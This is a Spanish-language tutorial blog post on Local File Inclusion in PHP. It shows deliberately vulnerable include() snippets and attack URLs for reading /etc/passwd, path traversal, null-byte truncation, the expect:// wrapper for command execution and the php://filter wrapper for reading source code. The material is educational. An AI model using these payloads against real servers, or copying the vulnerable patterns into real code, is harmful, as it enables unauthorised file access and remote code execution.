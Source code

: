 ```yaml
---
title: Local File Inclusion (LFI)
published: true
---
```


La vulnerabilidad _Local File Inclusion_, _LFI_ por sus siglas en inglés, permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la gravedad, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* [XSS](https://mateonitro550.github.io/Cross-Site-Scripting-(XSS)) (Cross-Site Scripting)
* DoS (Denial Of Service)

Un ejemplo muy básico sería el siguiente script en _PHP_.

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Script, del que podemos abusar para leer cualquier archivo del sistema, en este caso el `/etc/passwd`.

```
localhost/lfi.php?filename=/etc/passwd
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/1.png)

Es importante aclarar que esta no es solo una vulnerabilidad de _PHP_, también está presente en otros lenguajes como lo es _JSP_ o _ASP_.

### [](#header-3)Directory Path Traversal

Es posible que en el código, se nos limite a acceder a archivos que se ubican únicamente en una ruta preestablecida en el script, en este caso `/var/www/html/`.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta preestablecida si añadimos `../` en nuestra cadena de ataque, pudiendo así listar contenido más allá de `/var/www/html/`.

```
localhost/lfi.php?filename=../../../etc/passwd
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/2.png)

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a acceder a archivos de determinada extensión, en este caso archivos de extensión `.php`.

```php
<?php
	$file = $_GET['filename'];
        include($file . ".php");
?>
```

De modo que cuando intentemos leer el archivo `/etc/passwd`, o cualquier otro archivo del sistema, lo que estariamos leyendo en realidad sería el archivo `/etc/passwd.php`, el cual no existe. 

Sin embargo, si añadimos el nullbyte `%00` al final de nuestra cadena de ataque, el `.php` no será tenido en cuenta, pudiendo así leer con normalidad el `/etc/passwd`, o cualquier otro archivo del sistema.

```
localhost/lfi.php?filename=/etc/passwd%00
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/3.png)

### [](#header-3)Wrappers

_PHP_ cuenta con una serie de _wrappers_, los cuales a menudo pueden ser abusados; por mencionar algunos tenemos:

#### [](#header-4)expect://

Nos permite una ejecución remota de comandos (RCE); cabe aclarar que este _wrapper_ no está activado por defecto, por lo que no siempre será posible utilizarlo.

```
localhost/lfi.php?filename=expect://whoami
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/4.png)

#### [](#header-4)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser _Base64_ o _ROT13_. 

Este _wrapper_ resulta bastante útil si necesitamos leer un archivo en _PHP_, ya que recordemos, este es un lenguaje interpretado, por lo que si intentáramos leer un archivo _PHP_ del servidor vulnerable, lo que veríamos sería simplemente el output del script.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/5.png)

```
localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=filterWrapper.php
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/6.png)

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/7.png)
